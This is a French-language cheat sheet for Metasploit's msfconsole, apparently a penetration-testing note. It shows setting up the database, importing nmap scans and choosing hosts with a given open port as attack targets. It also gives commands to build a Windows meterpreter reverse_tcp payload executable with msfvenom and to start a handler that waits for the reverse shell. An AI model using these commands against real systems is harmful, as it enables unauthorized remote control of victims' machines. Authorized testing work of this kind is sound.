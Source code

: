 # msfconsole

### Lancer correctement msfconsole

```
# Lancer le service de base de données
sudo service postgresql start

sudo msfconsole
> dbinit
> workspace
> exit
sudo msfconsole
> workspace -a <NAME>
> workspace
> db_import <PATH/TO/NMAP-FILE-*.xml>
```

### Les services

Suite à l'importation de fichiers `nmap`, il est possible de sélectionner uniquement les machines disposant d'un certain service pour y mener une attaque.

```
# Liste les machines disposant du port <PORT> ouvert
services -p <PORT>

# Ajoute les machines avec le port <PORT> ouvert dans la liste des machines à ciblé par les prochaines attaques
services -p <PORT> -R
```

### Créer un _meterpreter_

```
/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o payload.exe
```

### Attendre la connexion d'un _meterpreter_

```
msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST <IP>
> set LPORT <PORT>
> run
```

